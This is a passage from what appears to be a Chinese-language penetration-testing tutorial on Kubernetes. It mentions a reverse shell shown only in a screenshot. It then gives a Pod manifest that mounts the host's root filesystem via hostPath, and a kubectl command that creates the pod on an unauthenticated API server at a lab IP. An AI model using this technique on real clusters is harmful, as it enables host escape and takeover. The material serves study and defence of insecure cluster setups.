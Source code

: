 Step 10：成功反弹shell

[![](assets/1698893355-9275c3f606fb0d2be62dce825de25682.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165358-08e2a4c6-7314-1.png)

B、Kubectl Client

Step 1：新建myapp2.yaml文件

```plain
apiVersion: v1
kind: Pod
metadata:
  name: myapp2
spec:
  containers:
  - image: nginx
    name: container0
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
```

Step 2：创建容器

```plain
kubectl -s 192.168.17.144:8080 create -f myapp2.yaml
```

[![](assets/1698893355-228eb663730a15f42aa13590fb9780a3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165434-1e742a26-7314-1.png)  
Step 3：查看容器状态
